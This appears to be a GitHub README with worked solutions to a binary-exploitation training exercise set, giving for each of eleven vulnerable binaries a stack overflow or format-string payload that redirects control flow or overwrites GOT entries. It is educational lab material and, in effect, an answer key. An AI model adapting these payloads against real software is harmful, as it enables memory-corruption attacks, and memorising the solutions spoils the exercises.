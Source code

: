 # hole-in-bin

## Task description

Inside the /hole-in-bin directory, there are a set of binaries (ex00 to ex11) that need to be exploited. Each binary presents a unique challenge and tests different aspects of your knowledge about binary exploitation and reverse engineering. You can find more details in a README.txt file inside each exercise folder.

### ex00

**Objective:** Introduce buffer overflow by overflowing into the next variable's memory space.
**Vulnerability:** ``gets()`` function.

Command: `./bin 11111111111111111111111111111111111111111111111111111111111111111` 

or make a file with python like script.py

    payload = b'A' * 96 + b'\x01\x00\x00\x00'  
    with open('payload', 'wb') as f:
        f.write(payload)

Commands:
    `python3 script.py`
    `./bin < payload`

### ex01

**Objective:** Overflow involving a global variable.
**Vulnerability:** `strcpy()` function.

Command: `./bin 0000000000000000000000000000000000000000000000000000000000000000dcba`  

or make a file with python like script.py

    buffer_size = 64
    target_address = b'\x64\x63\x62\x61'  
    payload = b'A' * buffer_size + target_address
    print(payload.decode('latin1'))

Commands:
    `python3 script.py > payload.txt`
    `./bin "$(cat payload.txt)"`

### ex02

**Objective:** Overflow involving a global variable.
**Vulnerability:** `strcpy()` function.

Command: `GREENIE=$'0000000000000000000000000000000000000000000000000000000000000000\n\r\n\r' ./bin` 

or make a file with python like script.py

    buffer_size = 64  
    target_address = b'\x64\x63\x62\x61'  
    payload = b'A' * buffer_size + target_address
    with open('payload', 'wb') as f:
        f.write(payload)

Commands: 
    `python3 script.py`
    `export GREENIE=$(cat payload)`
    `./bin`

### ex03

**Objective:** Change the program's control flow by altering the value of a function pointer through buffer overflow.
**Vulnerability:** `gets()` function.

Command: `printf '0000000000000000000000000000000000000000000000000000000000000000\x24\x84\x04\x08' | ./bin` 

or make a file with python like script.py

    buffer_size = 64  
    target_address = b'\x24\x84\x04\x08'  
    payload = b'A' * buffer_size + target_address
    with open('payload', 'wb') as f:
        f.write(payload)

Commands: 
    `python3 script.py`
    `./bin < payload`

### ex04

**Objective:** Modify the program's control flow by changing the main function's return address (EBP + 4) using buffer overflow.
**Vulnerability:** `gets()` function.

Command: `printf '0000000000000000000000000000000000000000000000000000000000000000000000000000\xf4\x83\x04\x08' | ./bin`  

or make a file with python like script.py

    buffer_size = 76  
    target_address = b'\xf4\x83\x04\x08'  
    payload = b'A' * buffer_size + target_address
    with open('payload', 'wb') as f:
        f.write(payload)

Commands: 
    `python3 script.py`
    `./bin < payload`

### ex05

**Objective:** Write into a variable using overflow with a formatted string.
**Vulnerability:** s`printf()` without a format specifier.

Command: `./bin $(python2 -c 'print "A"*64 + "\xef\xbe\xad\xde"')` 

or `` ./bin $(python3 -c 'import sys; sys.stdout.write("A"*64 + "\xef\xbe\xad\xde")') `` 

### ex06

Broken task, see [Discord discussion](https://discord.com/channels/875324134530363395/1092707047516164187/1108688842392883243)

### ex07

**Objective:** Use a formatted string to write a value at a specified address.
**Vulnerability:** `printf()` without a format specifier.

Command: `python2 -c 'print "\xe4\x96\x04\x08%60x%4$n"' | ./bin`  

or `` python3 -c 'import sys; sys.stdout.buffer.write(b"\xe4\x96\x04\x08%60x%4$n")' | ./bin `` 

### ex08

**Objective:** Use a formatted string to write a value at a specified address.
**Vulnerability:** ``printf()` without a format specifier.

Command: `python2 -c 'print "\xf4\x96\x04\x08"+"\xf5\x96\x04\x08"+"\xf6\x96\x04\x08"+"%56x%12$n"+"%17x%13$n"+"%173x%14$n"' | ./bin`  

or `` python3 -c 'import sys; sys.stdout.buffer.write(b"\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08%56x%12$n%17x%13$n%173x%14$n")' | ./bin  `` 

### ex09

**Objective:** Change the address of exit in the GOT (0x080484b4) to the address of the hello function (0x80484b0). This will cause hello() to be called instead of exit().
**Vulnerability:** ``printf()` without a format specifier.

Command: `python2 -c 'print "\x24\x97\x04\x08"+"%33968x%4$hn"' | ./bin`  

or `` python3 -c 'import sys; sys.stdout.buffer.write(b"\x24\x97\x04\x08%33968x%4$hn")' | ./bin `` 

### ex10

**Objective:** Change [esp+0x1c] to 0x8048464 to call the winner function instead of nowinner.
**Vulnerability:** `strcpy()` function.

Command: `` ./bin `python2 -c 'print "A"*80+"\x64\x84\x04\x08"' ``

or `` ./bin $(python3 -c 'import sys; sys.stdout.write("A"*80 + "\x64\x84\x04\x08")') ``   

### ex11

**Objective:** Overflow the first strcpy() to alter the first parameter of the second strcpy() and modify the puts entry in the GOT table to call the winner function.
**Vulnerability:** `strcpy()` functions.

Command: `` ./bin `python2 -c 'print "A"*20+"\x74\x97\x04\x08"'` `python2 -c 'print "\x94\x84\x04\x08"' ``

or `` ./bin $(python3 -c 'import sys; sys.stdout.write("A"*20 + "\x74\x97\x04\x08")') $(python3 -c 'import sys; sys.stdout.write("\x94\x84\x04\x08")') `` 


